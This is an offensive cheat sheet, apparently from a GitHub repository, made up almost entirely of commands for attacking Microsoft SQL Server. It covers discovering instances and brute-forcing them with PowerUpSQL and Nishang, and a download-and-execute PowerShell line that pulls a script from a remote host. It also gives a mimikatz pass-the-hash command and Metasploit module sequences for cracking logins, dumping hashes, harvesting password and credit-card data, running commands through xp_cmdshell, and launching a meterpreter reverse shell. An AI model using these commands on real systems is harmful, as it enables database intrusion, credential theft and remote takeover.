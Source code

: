 ### Powershell脚本	
	>PowerShell -Command "[System.Data.Sql.SqlDataSourceEnumerator]::Instance.GetDataSources()" 列出域内mssql主机
	https://github.com/NetSPI/PowerUpSQL
	>Get-SQLInstanceLocal          #发现本机SQLServer实例
	>Get-SQLInstanceDomain         #发现域中的SQLServer实例
	>Get-SQLInstanceBroadcast      #发现工作组SQLServer实例
	>$Targets = Get-SQLInstanceBroadcast -Verbose | Get-SQLConnectionTestThreaded -Verbose -Threads 10 -username sa -password admin | Where-Object {$_.Status -like "Accessible"} 工作组mssql爆破
	>$Targets = Get-SQLInstanceDomain -Verbose | Get-SQLConnectionTestThreaded -Verbose -Threads 10 -username sa -password admin | Where-Object {$_.Status -like "Accessible"} 
	>Get-SQLInstanceBroadcast -Verbose | Get-SQLServerLoginDefaultPw –Verbose
	>$Targets 域内MSSQL爆破
	Nishang脚本爆破MSSQL
	>Invoke-BruteForce -ComputerName dc.zone.com -UserList C:\test\users.txt -PasswordList C:\test\wordlist.txt -Service SQL -Verbose -StopOnSuccess
	>use auxiliary/scanner/mssql/mssql_login 爆破主机
	>use auxiliary/admin/mssql/mssql_exec 调用cmd
	>use auxiliary/admin/mssql/mssql_sql 执行SQL语句
	>use exploit/windows/mssql/mssql_payload 上线MSSQL主机
	http://192.168.0.107/ps/nishang/Execution/Execute-Command-MSSQL.ps1
	导入nishang执行MSSQL命令的脚本
	>IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/nishang/Execution/Execute-Command-MSSQL.ps1')
	>Execute-Command-MSSQL -ComputerName 192.168.0.98 -UserName sa -Password admin 会返回powershell
	>use auxiliary/scanner/mssql/mssql_hashdump 导出MSSQL密码
	已知服务器ntlmhash，未知mssql账号密码
	Hash注入+socks无密码连接mssql
	>mimikatz "privilege::debug" "sekurlsa::pth /user:administrator /domain:. /ntlm:{hash} /run:\"C:\*\SocksCap64\SocksCap64_RunAsAdmin.exe\"" "exit"
	将SSMS.exe加入sockscap中启动
	命令行版sqltool
	https://github.com/uknowsec/SharpSQLTools
### MSF攻击mssql
  	定位mssql服务器
	>use auxiliary/scanner/mssql/mssql_ping
	>set rhosts 192.168.1.1/24
	>exploit
	密码破解
	>use auxiliary/scanner/mssql/mssql_login
	>set rhosts 192.168.1.3
	>set user_file /root/users.txt
	>set verbose false
	>exploit
	检索版本
	>use auxiliary/admin/mssql/mssql_sql
	>set rhosts 192.168.1.3
	>set username lowprwiv
	>set password Password@1
	>exploit
	枚举信息
	>use auxiliary/admin/mssql/mssql_enum
	>set rhosts 192.168.1.3
	>set username lowpriv
	>set password Password@1
	>exploit
	用户枚举
	>use auxiliary/admin/mssql/mssql_enum_sql_login
	>set rhosts 192.168.1.3
	>set username lowpriv
	>set password Password@1
	>exploit
	捕获登录信息
	>use auxiliary/server/capture/mssql
	>set srvhost 192.168.1.2
	>exploit
	DUMP数据
	>use auxiliary/admin/mssql/mssql_findandsampledata
	>set rhosts 192.168.1.3
	>set username lowpriv
	>set password Password@1
	>set sample_size 4
	>set keywords FirstName|passw|credit
	>exploit
	DUMP哈希
	>use auxiliary/scanner/mssql/mssql_hashdump
	>set rhosts 192.168.1.149
	>set username sa
	>set password Password@1
	>expoit
	执行命令xp_cmdshell
	>use exploit/windows/mssql/mssql_payload
	>set rhosts 192.168.1.3
	>set username lowpriv
	>set password Password@1
	>exploit
	MSSQl_exec
	>use auxiliary/admin/mssql/mssql_exec
	>set rhosts 192.168.1.3
	>set username lowpriv
	>set password Password@1
	>set cmd "net user"
	>exploit
	CLR程序集
	>use exploit/windows/mssql/mssql_clr_payload
	>set payload windows/x64/meterpreter/reverse_tcp
	>set username lowpriv
	>set password Password@1
	>exploit
	权限提升
	>use auxiliary/admin/mssql/mssql_escalate_dbowner
	>set rhosts 192.168.1.3
	>set username lowpriv
	>set password Password@1
	>exploit
	冒用
	>use auxiliary/admin/mssql/mssql_escalate_execute_as
	>set rhosts 192.168.1.3
	>set username lowpriv
	>set password Password@1
	>exploit